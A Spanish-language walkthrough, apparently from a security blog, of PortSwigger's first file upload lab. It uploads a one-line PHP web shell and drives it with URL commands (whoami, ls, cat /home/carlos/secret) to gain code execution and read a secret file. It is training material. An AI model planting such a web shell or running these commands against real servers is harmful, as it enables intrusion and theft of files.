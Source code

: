 ```yaml
---
title: File Upload Vulnerabilities Lab 1
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Remote code execution via web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Remote code execution via web shell upload

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que no realiza `ninguna validación` en los `archivos` que los usuarios suben antes de almacenarlos en el `sistema` de `archivos` del `servidor`. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego `enviar` este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo subimos

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_5.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_6.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un archivo llamado `secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_7.png)

`Leemos` la `información` de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_8.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-1/image_9.png)
